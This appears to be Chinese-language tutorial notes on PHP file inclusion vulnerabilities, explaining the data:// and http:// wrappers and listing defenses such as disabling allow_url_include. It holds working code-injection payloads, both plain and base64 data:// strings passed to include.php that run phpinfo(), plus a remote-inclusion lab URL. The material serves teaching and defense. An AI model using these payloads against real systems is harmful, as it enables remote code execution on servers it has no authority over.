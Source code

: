 ### data://
数据流封装器，以传递相应格式的数据。可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作php文件执行。
如果传入的数据是PHP代码，就会执行代码
简单来说就是data://text/plain+,<?php 命令;?>

text/html → 按 HTML 解析

image/png → 按 PNG 图片处理

text/plain → 视为纯文本，直接显示内容，不执行任何解析。

```
示例用法：
1、data://text/plain,
http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
 
2、data://text/plain;base64,
http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b

data://text/plain,<?php phpinfo();?>
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+

Example #1 打印 data:// 的内容
<?php
// 打印 "I love PHP"
echo  file_get_contents ( 'data://text/plain;base64,SSBsb3ZlIFBIUAo=' );
?>

Example #2 获取媒体类型
<?php
$fp    =  fopen ( 'data://text/plain;base64,' ,  'r' );
$meta  =  stream_get_meta_data ( $fp );

// 打印 "text/plain"
echo  $meta [ 'mediatype' ];
?>
```

### http://
访问 HTTP(s) 网址
例如
```
https://raw.githubusercontent.com/ProbiusOfficial/PHPinclude-labs/main/RFI
```

## 文件包含漏洞的防御
PHP:配置php.ini关闭远程文件包含功能(allow_url_include = Off)

严格检查变量是否已经初始化。

建议假定所有输入都是可疑的，尝试对所有输入提交可能可能包含的文件地址，包括服务器本地文件及远程文件，进行严格的检查，参数中不允许出现../之类的目录跳转符。

严格检查include类的文件包含函数中的参数是否外界可控。
